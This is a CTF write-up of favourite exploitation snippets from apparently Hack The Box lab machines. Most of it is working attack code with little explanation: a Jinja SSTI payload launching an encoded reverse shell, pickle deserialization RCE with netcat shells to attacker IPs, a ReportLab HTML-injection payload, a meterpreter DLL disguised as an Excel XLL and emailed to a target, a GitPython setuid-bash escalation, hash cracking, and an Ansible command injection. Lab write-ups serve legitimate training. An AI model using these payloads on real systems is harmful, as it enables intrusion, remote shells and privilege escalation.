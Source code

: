 ```yaml
---
title: "Season"
date: 2024-08-21
---
```


Overall I learned a lot and these are some of my favorite snippets that i definitely will be keeping. SPOILERS REMOVED don't worry.

## SSTI With Jinja

Context: Obtaining Foothold using Server Side Template Injection with Jinja

I can see that I can by pass with this payload

```html
invoice_id=&form_type=scannable_invoice&qr_link=https%3A%2F%2Fbruhaps.htb%2Fstatic%2Fqr_code%2Fqr_code_5868828307.png" {{'><script>;</script>'|safe}}
```

### Final SSTI Payload
```
invoice_id=&form_type=scannable_invoice&qr_link={% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4xMC4xNC43LzQ0NDQ7IC9iaW4vc2ggPCYxOTYgPiYxOTYgMj4mMTk2 | base64 -d | bash")["read"]() %} a {% endwith %}
```

On attack machine
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.7] from (UNKNOWN) [10.10.11.12] 46716

ls
app.py
static
templates
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cheeese:/opt/app$ ls
```


---
## Pickle RCE

Context: This was a machine learning server, and I was a low privilege user related to the ML training.

https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/

```
import pickle import base64 import os class RCE: def __reduce__(self): cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f') return os.system, (cmd,) if __name__ == '__main__': pickled = pickle.dumps(RCE()) print(base64.b64encode(pickled)) # or print(base64.urlsafe_b64encode(pickled))
```

### Final Python RCE

```python
from clearml import Task
import pickle,os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.16 4444 >/tmp/f',))


command = RunCommand()


task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"], output_uri=True)

task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")


with open('pickle_artifact.pkl','wb') as f:
    pickle.dump(command,f)

```

---
## RCE Via Html Injection

Context: Obtain Foothold using Htmli

https://github.com/Sudistark/BB-Writeups/blob/main/2023/CVE-2023-33733-rce-via-htmli-in-reportlab.md

Start Listener

```
nc -lvnp 4444
```

Payload used for rev shell

```html
ASSS<font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlBASE64PAYLOADAKQA=') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font>
```

---
## Sending a malicious XLL via email

Context: Obtaining Foothold by sending an email allowing excel files. 

https://github.com/edparcell/HelloWorldXll

Generate payload with msfvenom
```bash
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.68 LPORT=4444 -f dll -o ex.dll


cp ex.dll ex.xll
```


Send the malicious `.xll`
```bash
swaks --to accounts@BRUH.htb --from assinine@BRUH.htb --server MAINFRAME.BRUH.htb --port 25 --header "Subject: test" --body "test" --attach @ex.xll
```


```cmd
C:\>whoami
whoami
AHHHHH YOU THOUGHT
```

---

## Priv Esc with GitPython

Context: User Foothold obtaining root.

Prod Perms

```
User prod may run the following commands on BRUH:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Contents of `clone_prod_change.py`

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

https://github.com/gitpython-developers/GitPython/issues/1515
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858


```
'ext::sh -c chmod% 4777% /bin/bash'
```


## Root

```
prod@linux:~$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
bash-5.1# cat /root/root.txt
SECRET
bash-5.1# 
```

---

## Root with Ansible

Context: I had perms for Ansible runner.
### Find Ansible Hash
```C
// Version : 1 #include <stdio.h> #include <stdlib.h> #include <string.h> #include <dirent.h> #include <openssl/md5.h> #define INVENTORY_FILE "/opt/playbooks/inventory.ini" #define PLAYBOOK_LOCATION "/opt/playbooks/" #define ANSIBLE_PLAYBOOK_BIN "/usr/bin/ansible-playbook" #define ANSIBLE_GALAXY_BIN "/usr/bin/ansible-galaxy" #define AUTH_KEY_HASH "0feda17076d793c2ef2870d7427ad4ed" int check_auth(const char* auth_key) { unsigned char digest[MD5_DIGEST_LENGTH]; MD5((const unsigned char*)auth_key, strlen(auth_key), digest); char md5_str[33]; for (int i = 0; i < 16; i++) { sprintf(&md5_str[i*2], "%02x", (unsigned int)digest[i]); }
```

### Crack the Ansible hash
```
hashcat -a3 -m0 myhash.txt UH4565jkl?u?u?u?u --self-test-disable
```

```
HASH:RESult
```

### Root Access

Create json file and insert command injection.

```
{
 "run": {
    "action": "install",
    "role_file": "archive.tar;bash"},
 "auth_code": "CRACKEDRESULT"
}
```

